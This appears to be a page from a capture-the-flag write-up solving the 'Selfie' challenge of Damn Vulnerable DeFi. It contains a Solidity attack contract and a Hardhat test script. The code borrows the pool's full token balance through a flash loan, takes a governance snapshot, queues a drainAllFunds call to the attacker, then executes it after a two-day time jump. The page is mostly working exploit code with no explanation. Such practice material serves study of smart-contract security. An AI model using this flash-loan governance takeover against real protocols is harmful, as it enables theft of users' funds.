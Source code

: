 ```solidity
 */
contract AttackSelfie {

    ISelfiePool pool;
    ISimpleGovernance governance; 
    IDamnValuableTokenSnapshot token;
    address attacker;

    constructor(address _pool, address _governance, address _token, address _attacker) {
        pool = ISelfiePool(_pool);
        governance = ISimpleGovernance(_governance);
        token = IDamnValuableTokenSnapshot(_token);
        
        attacker = _attacker;

    }

    function run() public {
        uint256 amount = token.balanceOf(address(pool));
        pool.flashLoan(amount);
    }

    function executeAction(uint256 actionId) public {
        governance.executeAction(actionId);
    }


    function receiveTokens(address _address, uint256 amount) public {
        IDamnValuableTokenSnapshot(_address).snapshot();

        governance.queueAction(address(pool), abi.encodeWithSignature("drainAllFunds(address)", address(attacker)), 0);
        
        IDamnValuableTokenSnapshot(_address).transfer(address(pool), amount);

    }

}

```

`selfie.challenge.js`:

```javascript

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */

        const AttackFactory = await ethers.getContractFactory('AttackSelfie', deployer);
        const attack = await AttackFactory.deploy(this.pool.address, this.governance.address, this.token.address, attacker.address);

        await attack.connect(attacker).run();

        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 days

        await attack.connect(attacker).executeAction(1);

    });
    
```
